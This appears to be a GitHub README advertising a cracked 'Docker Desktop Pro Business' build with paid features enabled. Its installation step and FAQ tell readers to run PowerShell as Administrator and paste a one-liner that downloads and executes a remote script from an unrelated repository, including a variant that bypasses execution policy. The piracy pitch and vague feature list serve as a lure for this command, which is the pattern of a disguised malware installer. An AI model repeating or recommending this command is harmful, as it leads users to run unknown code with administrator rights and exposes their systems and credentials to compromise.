

<div align="center">


<br>


# Docker Desktop Pro Business Complete Edition
**Containers · Kubernetes · Dev environments**
<br>
**Containers · Kubernetes · Dev environments**
<br>
Premium · Pro · Complete · Windows



**Docker Desktop Pro Business — Kubernetes, private repos, team policies and advanced container tools enabled.**

</div>

---

> Build and ship containers locally — Pro Business features enabled for developers and DevOps teams.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🛠️ **Developer tools** — Pro debugging and container features enabled.
📦 **Local install** — Works offline after setup.
🖥️ **Windows optimized** — Built for dev workstations.
⚙️ **Pro workflow** — API, container and automation tools included.
✨ **Premium modules** — Paid developer features enabled.
📋 **Complete toolkit** — Profiles and integrations supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 8 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 8 gb free space.
</details>


TAGS
docker-desktop, docker, containers, kubernetes, docker-engine, containerization, devops, docker-compose, developer-tools, docker-pro, docker-business, container-management, docker-windows, microservices, docker-desktop-pro
